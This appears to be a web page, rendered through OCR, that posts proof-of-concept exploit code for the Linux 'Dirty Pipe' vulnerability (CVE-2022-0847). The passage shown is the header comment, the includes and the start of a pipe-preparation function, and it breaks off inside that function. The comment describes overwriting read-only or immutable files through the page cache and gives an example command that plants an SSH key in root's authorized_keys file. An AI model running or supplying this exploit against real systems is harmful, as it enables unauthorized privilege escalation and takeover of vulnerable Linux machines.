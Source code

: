 Dirty Pipe: CVE-2022-0847


Exploit POC code here:

````
/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
	if (pipe(p)) abort();

	const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
	static char buffer[4096];

	/* fill the pipe completely; each pipe_buffer will now have
	   the PIPE_BUF_FLAG_CAN_MERGE flag */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		write(p[1], buffer, n);
		r -= n;
	}

````